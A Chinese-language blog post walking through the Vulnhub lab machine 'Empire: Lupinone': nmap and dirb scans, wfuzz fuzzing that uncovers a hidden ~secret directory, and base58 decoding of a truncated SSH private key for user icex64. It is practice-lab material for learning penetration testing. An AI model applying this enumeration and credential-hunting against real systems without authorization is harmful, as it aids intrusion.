 ```yaml
---
layout: post
title: "EMPIRE: LUPINONE"
subtitle: "EMPIRE: LUPINONE"
date: 2022-12-08 14:37
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
---
```

## EMPIRE: LUPINONE

Difficulty: Medium

kali攻击机ip:192.168.30.130

靶机ip:192.168.30.135

### 网络扫描

```shell
nmap -A 192.168.30.135
```

开放22、80端口，扫描文件

```shell
dirb 192.168.30.135 
```

发现robots.txt，内容：

```
User-agent: *
Disallow: /~myfiles
```

```html
curl http://192.168.30.135/~myfiles/

##
<!DOCTYPE html>
<html>
<head>
<title>Error 404</title>
</head>
<body>

<h1>Error 404</h1>

</body>
</html>

<!-- Your can do it, keep trying. -->
```

查找其他目录下\~myfiles文件，无果。查找和\~myfiles文件格式类似文件

```shell
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.30.135/~FUZZ
```

找到\~secret,code:301。使用浏览器访问

```
Hello Friend, Im happy that you found my secret diretory, I created like this to share with you my create ssh private key file,
Its hided somewhere here, so that hackers dont find it and crack my passphrase with fasttrack.
I'm smart I know that.
Any problem let me know
Your best friend icex64 
```

Tps：用户名：icex64，sshkey

```
cGxD6KNZQddY6iCsSuqPzU......zDgKm2gSRN8gHz3WqS
```

base58解码：

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEA......4ORlsC
iUJ66WmRUN9EoVlkeCzQJwivI=
-----END OPENSSH PRIVATE KEY-----
```
